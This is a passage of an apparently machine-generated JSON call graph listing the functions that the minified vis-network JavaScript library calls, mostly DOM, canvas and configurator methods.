"static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindHammer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_isColorString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_generateHueCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updatePicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updatePicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updatePicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updatePicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "putImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setBrightness"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setBrightness"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_moveSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_moveSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_moveSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_moveSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_moveSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_removePopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_handleObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeHeader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_handleObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_showPopupIfNeeded"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_removePopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setupPopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_printOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_removePopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_removePopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_showColorPicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "insertTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setUpdateCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setCloseCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_showColorPicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_handleObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_handleArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeTextInput"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeCheckbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_handleObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeCheckbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_handleObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeColorField"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_makeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_constructOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_constructOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", 